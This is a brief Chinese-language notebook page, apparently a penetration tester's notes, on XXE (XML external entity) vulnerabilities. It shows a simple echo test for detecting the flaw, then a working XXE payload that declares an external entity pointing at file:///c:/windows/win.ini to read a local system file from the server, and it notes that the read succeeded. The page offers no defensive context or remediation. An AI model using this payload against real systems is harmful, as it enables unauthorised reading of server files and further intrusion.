


# XXE漏洞

　　简单检测

　　  **&lt;gg&gt;gg&lt;/gg&gt;**

　　返回gg字符,存在漏洞且具有回显

　　构造payload

　　 **&lt;?xml version="1.0"?&gt;
&lt;!DOCTYPE ANY [
     &lt;!ENTITY xxe SYSTEM "file:///c:/windows/win.ini"&gt; ]&gt;
&lt;a&gt;&amp;xxe;&lt;/a&gt;**

　　成功读取

　　‍
